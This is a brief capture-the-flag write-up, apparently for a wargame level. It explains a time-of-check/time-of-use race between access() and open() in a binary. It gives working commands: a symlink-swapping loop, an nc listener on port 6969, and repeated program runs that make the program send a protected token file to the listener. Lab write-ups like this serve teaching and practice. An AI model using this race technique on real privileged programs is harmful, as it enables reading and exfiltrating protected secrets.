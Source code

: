 the code opened in binary ninja :
![first part](./binaryninja1.png)
![second part](./binaryninja2.png)
we can see that the program use access to check if we have permessions, then connect to the server, and then open the file.
it mean that that we can give a file we can read to the program, and between the call to access and open change it to a symlink to the token file.
we will simply do that with a while loop :
`touch a && while true; do ln -sf token test; ln -sf a test; done`
then launch the server where the program is gonna send to file (we can see it's on port 6969 from the code) :
`nc -lk 6969` -l is to listen instead of send, and -k to continue receiving after first recv.
then try to lauch the program multiple time :
`./level10 test 0.0.0.0`
and in a few try the file will be swap and the program will open token instead of test, and the server will receive the token.
